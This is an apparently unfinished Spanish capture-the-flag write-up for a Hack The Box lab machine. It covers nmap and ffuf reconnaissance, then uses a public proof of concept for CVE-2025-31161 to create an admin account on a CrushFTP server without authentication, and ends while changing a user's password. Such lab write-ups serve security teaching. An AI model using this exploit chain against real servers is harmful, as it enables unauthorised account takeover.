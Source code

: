 # Metodologías de ataque

Creamos nuestra carpeta con el nombre de la maquina `soulmate` y dentro crearemos las subcarpetas para cada fase `content, exploits, nmap, scripts`

Revisamos la conexion a la ip

```bash
ping -c 2 10.10.11.86
```
Respuesta:
<pre>
PING 10.10.11.86 (10.10.11.86) 56(84) bytes of data.
64 bytes from 10.10.11.86: icmp_seq=1 ttl=63 time=139 ms
64 bytes from 10.10.11.86: icmp_seq=2 ttl=63 time=141 ms

--- 10.10.11.86 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 139.407/139.959/140.511/0.552 ms
</pre>

Teniendo la respuesta ingresamos a la ip que nos entrega HTB, en mi caso es la 10.10.11.86

Nos indica que no pudo resolver soulmate.htb

![Ejemplo](assets/1. Ver pagina.png)

Ingresamos al archivo hosts e ingresamos la ip y el dominio que nos indica en la pagina

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.hth
</pre>

Recargamos la pagina y deberiamos ya poder ver el inicio:

###INgresar imagen


Realizamos un escaneo en nmap y en paralelo haremos escaneos de directorios y subdominios

## Escaneo previo
**Full TCP (nmap):**
```bash
nmap -vvv -sS -p- --min-rate 1000 -n -Pn 10.10.11.86 -oG nmap/allPorts
```

Respuesta:
<pre>
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-28 13:38 -03
Initiating SYN Stealth Scan at 13:38
Scanning 10.10.11.86 [65535 ports]
Discovered open port 22/tcp on 10.10.11.86
Discovered open port 80/tcp on 10.10.11.86
Increasing send delay for 10.10.11.86 from 0 to 5 due to 382 out of 1272 dropped probes since last increase.
Increasing send delay for 10.10.11.86 from 5 to 10 due to max_successful_tryno increase to 4
Completed SYN Stealth Scan at 13:38, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.86
Host is up, received user-set (0.26s latency).
Scanned at 2025-09-28 13:38:09 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
</pre>

Vemos que tenemos 2 puertos, usaremos esos para escanearlos

## Escaneo de servicios
**Servicios + scripts:**
```bash
nmap -v -sC -sV --min-rate 1000 -p 22,80 -n 10.10.11.86 -oG nmap/targeted
```

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## Fuzzing de directorios web
```bash
ffuf -w /usr/share/wordlists/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://soulmate.htb/FUZZ -o content/dirs-soulmate.json -of json -t 25 -fw 6110
```

Respuesta:

<pre>
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]

</pre>

## Fuzzing de subdominios / vhosts
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" -o content/domains-soulmate.json -of json -t 25
```

Respuesta:

<pre>
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 228ms]
</pre>

## Fuzzing de archivos

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://soulmate.htb/assets/FUZZ -e .php,.html,.bak,.txt -recursion -recursion-depth 2 -mc 200,301,302 -fc 404 -t 25 -ocontent/extensions-soulmate.jsonn -of json 
```

Respuesta:

<pre>
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 139ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/css/FUZZ

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/css/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/FUZZ

profiles                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 138ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/profiles/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/profiles/FUZZ

:: Progress: [23615/23615] :: Job [4/4] :: 197 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
</pre>

Ingresamos a cada uno de los directorios para verificar algun heartbleed pero no se obtiene nada favorable.

Intentamos acceder al ftp del sitio: ftp.soulmate.htb

#Insertar imagen

Agregamos el ftp al archivo hosts.

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.htb ftp.soulmate.htb
</pre>

recargamos la pagina y ya deberiamos tener acceso al ftp

#Insertar imagen

En caso de no cargar probar con la combinacion de teclas Ctrl+F5 para recargar cache.

Dentro de la pagina hacemos una inspeccion de código y verificamos que la version del CrushFTP es la `v11.W.657`

Realizamos una busqueda en google y validamos la vulnerabilidad: "11.W.657 CRUSHFTP Vuln"

y encontramos el CVE de la vulnerabilidad: CVE-2025-31161

Fuente: https://s2grupo.es/vulnerabilidades-crushftp-2025/

Realizamos otra busqueda en google con la CVE: CVE-2025-31161 y vemos que en github hay una POC en python para usarse

#Insertar imagen

Descargamos la POC y la ejecutamos:

```bash
cd exploits
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
python3 cve-2025-31161.py
```
Respuesta:

<pre>
[-] Target host not specified
usage: cve-2025-31161.py [-h] [--target_host TARGET_HOST] [--port PORT] [--target_user TARGET_USER] [--new_user NEW_USER] [--password PASSWORD]

Exploit CVE-2025-31161 to create a new account

options:
  -h, --help            show this help message and exit
  --target_host TARGET_HOST
                        Target host
  --port PORT           Target port
  --target_user TARGET_USER
                        Target user
  --new_user NEW_USER   New user to create
  --password PASSWORD   Password for the new user

</pre>

Nos pide ingresar los datos en este orden (probaremos con el usuario root que es el mas común):

```bash
python3 --target_host http://ftp.soulmate.htb --port 80 --target_user root --new_user prueba --password admin123
```

Respuesta:

<pre>
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
<strong>[+] Exploit Complete you can now login with
   [*] Username: prueba
   [*] Password: admin123.</strong>
</pre>

Tenemos el usuario creado, ahora validamos el acceso:

#Insertar imagen

Empezamos a navegar en el portal y lo primero que vemos es la opcion de Admin, dentro de esta opcion navegamos por el menu hasta que llegamos a la parte de User Manager. Donde podemos ver los usuarios registrados hasta el momento.

Probaremos con el primer usuario a ver si le podemos cambiar la password y presionamos en Save:

#Insertar imagen


> **Recordatorio:** documentar comandos, salidas y autorización es obligatorio. Uso exclusivo en entornos autorizados.
